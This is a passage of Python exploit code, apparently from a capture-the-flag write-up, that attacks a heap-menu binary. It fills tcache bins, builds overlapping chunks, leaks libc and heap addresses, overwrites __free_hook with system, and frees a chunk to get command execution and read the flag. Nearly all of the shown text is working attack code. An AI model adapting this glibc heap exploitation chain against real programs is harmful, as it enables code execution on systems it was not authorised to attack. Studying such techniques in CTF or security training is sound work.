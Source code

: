 ```
        for i in range(7):
            delete(sh, i)

        delete(sh, 28)
        delete(sh, 24)

        for i in range(7):
            creat(sh, 0x28 , 'chunk_' + str(i) + 'n')

        creat(sh, 0x28  , p8(0x10))
        creat(sh, 0x28  , 'c' * 0x20 + p64(0xe0))

        creat(sh, 0x4F8  , 'n')
        delete(sh, 30)

        try:
            # Leak info
            creat(sh, 0x18 , 'n')
            show(sh,29)
            libc.address = get_address(sh=sh,info='LIBC_ADDRESS --&gt; ',start_string='n',end_string='1.',offset=0x00007f3e3d454000-0x7f3e3d638ca0)

            creat(sh, 0x38 , 'n')
            delete(sh, 18)
            delete(sh, 31)
            show(sh,29)
            heap_address = get_address(sh=sh,info='HEAP_ADDRESS --&gt; ',start_string='n',end_string='1.',offset=-0x590)

            creat(sh, 0x18 , 'n')
            delete(sh, 18)
            delete(sh, 26)
            creat(sh, 0x28, p64(0) + p64(0x31)  + p64(libc.symbols['__free_hook']))
            creat(sh, 0x18 , 'n')
            creat(sh, 0x18 , p64(libc.symbols['system']))

            delete(sh,8)

            flag = get_flag(sh)
            # get_gdb(sh,stop=True)
            # sh.interactive()
            sh.close()
            return flag
        except EOFError:
            sh.close()
            continue

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```
